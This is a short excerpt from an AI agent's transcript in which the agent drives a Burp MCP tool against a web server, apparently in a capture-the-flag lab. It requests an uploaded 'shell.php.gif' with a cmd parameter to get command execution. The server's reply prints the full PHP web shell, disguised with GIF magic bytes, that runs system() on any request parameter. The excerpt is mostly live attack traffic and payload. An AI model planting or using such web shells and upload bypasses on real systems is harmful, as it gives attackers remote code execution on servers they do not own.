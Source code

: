 The .phtml extension also failed. Let's try a different approach. Since we were able to upload a file with the .php.gif extension earlier, let's try to execute commands through that file by accessing it with the cmd parameter.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /uploads/shell.php.gif?cmd=id HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 200 OK
Date: Wed, 07 May 2025 23:39:33 GMT
Server: Apache/2.4.55 (Ubuntu)
Last-Modified: Wed, 07 May 2025 23:38:47 GMT
ETag: "8d-634943c061ca8"
Accept-Ranges: bytes
Content-Length: 141
Connection: close
Content-Type: image/gif

GIF89a;
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:39:35 PM (America/New_York, UTC-4:00)
